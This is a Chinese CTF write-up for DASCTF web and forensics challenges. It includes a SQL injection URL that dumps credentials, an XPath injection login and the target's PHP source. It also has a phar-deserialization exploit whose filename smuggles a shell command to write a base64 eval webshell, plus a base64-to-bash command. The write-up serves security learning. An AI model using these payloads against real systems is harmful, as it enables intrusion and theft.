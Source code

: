 ## Web
### ez_cms
`?r=content&cid=1%20or%20updatexml(1,concat(0x7e,(select%20concat(user,0x3a,password)%20from%20manage)),1)`

![](attachments/Pasted%20image%2020230722105003.png)

![](attachments/Pasted%20image%2020230722104909.png)

通过发布下载实现任意文件读取
![](attachments/Pasted%20image%2020230722105721.png)

![](attachments/Pasted%20image%2020230722105710.png)


后面真的没有思路了用cms的下载管理来读文件不知道flag名字，用上传的方式想上传一个图片马然后用文件包含那个洞来做RCE但是上传会报错猜测是系统里面没有那个文件夹，最后是直接pearcmd文件包含来写马。

![](attachments/Pasted%20image%2020230725151857.png)


![](attachments/Pasted%20image%2020230725160451.png)

DASCTF{ae7b0d3b-fb3f-4fe8-ae61-5acd1486c460}

### MyPicDisk
username: admin'
password： admin'

登陆后要拦截响应包不然的话看不到会直接跳转，这里提示/y0u_cant_find_1t.zip 

![](attachments/Pasted%20image%2020230725161932.png)

index.php
```php
<?php
session_start();
error_reporting(0);
class FILE{
    public $filename;
    public $lasttime;
    public $size;
    public function __construct($filename){
        if (preg_match("/\//i", $filename)){
            throw new Error("hacker!");
        }
        $num = substr_count($filename, ".");
        if ($num != 1){
            throw new Error("hacker!");
        }
        if (!is_file($filename)){
            throw new Error("???");
        }
        $this->filename = $filename;
        $this->size = filesize($filename);
        $this->lasttime = filemtime($filename);
    }
    public function remove(){
        unlink($this->filename);
    }
    public function show()
    {
        echo "Filename: ". $this->filename. "  Last Modified Time: ".$this->lasttime. "  Filesize: ".$this->size."<br>";
    }
    public function __destruct(){
        system("ls -all ".$this->filename);
    }
}
?>
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>MyPicDisk</title>
</head>
<body>
<?php
if (!isset($_SESSION['user'])){
  echo '
<form method="POST">
    username：<input type="text" name="username"></p>
    password：<input type="password" name="password"></p>
    <input type="submit" value="登录" name="submit"></p>
</form>
';
  $xml = simplexml_load_file('/tmp/secret.xml');
  if($_POST['submit']){
    $username=$_POST['username'];
    $password=md5($_POST['password']);
    $x_query="/accounts/user[username='{$username}' and password='{$password}']";
    $result = $xml->xpath($x_query);
    if(count($result)==0){
      echo '登录失败';
    }else{
      $_SESSION['user'] = $username;
        echo "<script>alert('登录成功!');location.href='/index.php';</script>";
    }
  }
}
else{
    if ($_SESSION['user'] !== 'admin') {
        echo "<script>alert('you are not admin!!!!!');</script>";
        unset($_SESSION['user']);
        echo "<script>location.href='/index.php';</script>";
    }
  echo "<!-- /y0u_cant_find_1t.zip -->";
  if (!$_GET['file']) {
    foreach (scandir(".") as $filename) {
      if (preg_match("/.(jpg|jpeg|gif|png|bmp)$/i", $filename)) {
        echo "<a href='index.php/?file=" . $filename . "'>" . $filename . "</a><br>";
      }
    }
    echo '
  <form action="index.php" method="post" enctype="multipart/form-data">
  选择图片：<input type="file" name="file" id="">
  <input type="submit" value="上传"></form>
  ';
    if ($_FILES['file']) {
      $filename = $_FILES['file']['name'];
      if (!preg_match("/.(jpg|jpeg|gif|png|bmp)$/i", $filename)) {
        die("hacker!");
      }
      if (move_uploaded_file($_FILES['file']['tmp_name'], $filename)) {
          echo "<script>alert('图片上传成功!');location.href='/index.php';</script>";
      } else {
        die('failed');
      }
    }
  }
  else{
      $filename = $_GET['file'];
      if ($_GET['todo'] === "md5"){
          echo md5_file($filename);
      }
      else {
          $file = new FILE($filename);
          if ($_GET['todo'] !== "remove" && $_GET['todo'] !== "show") {
              echo "<img src='../" . $filename . "'><br>";
              echo "<a href='../index.php/?file=" . $filename . "&&todo=remove'>remove</a><br>";
              echo "<a href='../index.php/?file=" . $filename . "&&todo=show'>show</a><br>";
          } else if ($_GET['todo'] === "remove") {
              $file->remove();
              echo "<script>alert('图片已删除!');location.href='/index.php';</script>";
          } else if ($_GET['todo'] === "show") {
              $file->show();
          }
      }
  }
}
?>
</body>
</html>
```

写phar包

```php
<?php
class FILE{
    public $filename=";echo PD9waHAgcGhwaW5mbygpO2V2YWwoJF9QT1NUWzFdKTs/Pg==|base64 -d >shell.php";
    public $lasttime;
    public $size;
    public function remove(){
        unlink($this->filename);
    }
    public function show()
    {
        echo "Filename: ". $this->filename. "  Last Modified Time: ".$this->lasttime. "  Filesize: ".$this->size."<br>";
    }
}


phpinfo();
$a = new FILE();

$phar=new phar('phar.phar',0);//后缀名必须为phar
$phar->startBuffering();//开始缓冲 Phar 写操作
$phar->setMetadata($a);//自定义的meta-data存入manifest
$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub，stub是一个简单的php文件。PHP通过stub识别一个文件为PHAR文件，可以利用这点绕过文件上传检测
$phar->addFromString("test.txt","test");//添加要压缩的文件
$phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```


todo 为md5时触发 md5_file()
加上上面的File类的命令拼接RCE大概考点是phar反序列化

自己写个提交页面来构造表单

![](attachments/Pasted%20image%2020230725170616.png)

成功写入

![](attachments/Pasted%20image%2020230725171714.png)

但是实际访问中发先shell.php存在但是无显示，而且无法执行命令，放弃写马，直接拼接bash执行命令

`echo Y2F0IC9hZGphc2tkaG5hc2tfZmxhZ19pc19oZXJlX2Rha2pkbm1zYWtqbmZrc2Q=|base64 -d|bash -i>flag.txt`

![](attachments/Pasted%20image%2020230725172820.png)
### ezFat32
给了个镜像用autopsy直接提了一个bmp出来

![](attachments/f0000001.bmp)

剩余空间里面由hint提示sha256解压
用sha256值去解压缩包的密码解开后就是flag

![](attachments/Pasted%20image%2020230724153536.png)

1bec3826d44f706d33e8cc4bc230d3113d0198261ff1cd251294dbdebabb0af5

dasctf{Yep_Y0u_F1nd_The_F1ag!Suff3r_t0_rec0ver}